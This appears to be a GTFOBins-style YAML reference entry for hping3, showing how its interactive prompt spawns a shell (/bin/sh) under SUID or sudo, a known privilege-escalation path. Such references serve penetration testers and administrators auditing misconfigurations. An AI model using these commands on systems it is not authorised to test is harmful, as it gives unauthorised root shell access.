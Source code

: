 ```yaml
---
functions:
  suid:
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
    code: |
        hping3
        hping3> /bin/sh  
  sudo:    
    - description: If you run hping3 without any arguments, it can be used to execute shell commands.
      code: |
        sudo hping3
        hping3> /bin/sh
---
```

